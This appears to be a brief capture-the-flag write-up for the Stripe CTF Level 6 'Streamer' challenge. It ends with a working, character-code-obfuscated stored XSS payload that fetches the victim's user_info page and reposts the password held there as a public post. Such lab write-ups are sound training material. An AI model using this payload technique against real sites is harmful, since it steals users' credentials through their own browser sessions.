 After Karma Trader from Level 4 was hit with massive karma inflation (purportedly due to someone flooding the market with massive quantities of karma), the site had to close its doors. All hope was not lost, however, since the technology was acquired by a real up-and-comer, Streamer. Streamer is the self-proclaimed most steamlined way of sharing updates with your friends. You can access your Streamer instance here: https://level06-2.stripe-ctf.com/user-XXXXXXXXXX

The Streamer engineers, realizing that security holes had led to the demise of Karma Trader, have greatly beefed up the security of their application. Which is really too bad, because you've learned that the holder of the password to access Level 7, level07-password-holder, is the first Streamer user.

As well, level07-password-holder is taking a lot of precautions: his or her computer has no network access besides the Streamer server itself, and his or her password is a complicated mess, including quotes and apostrophes and the like.

Fortunately for you, the Streamer engineers have decided to open-source their application so that other people can run their own Streamer instances. You can obtain the source for Streamer at git clone https://level06-2.stripe-ctf.com/user-XXXXXXXXXX/level06-code. We've also included the most important files below. 


I posted </script><script>$(function () { $.get(String.fromCharCode(117,115,101,114,95,105,110,102,111), function(data) { $(String.fromCharCode(35,99,111,110,116,101,110,116)).val(escape($(data).find(String.fromCharCode(116,100)).text())); $(String.fromCharCode(35,110,101,119,95,112,111,115,116)).submit(); }) });</script> and decoded the password

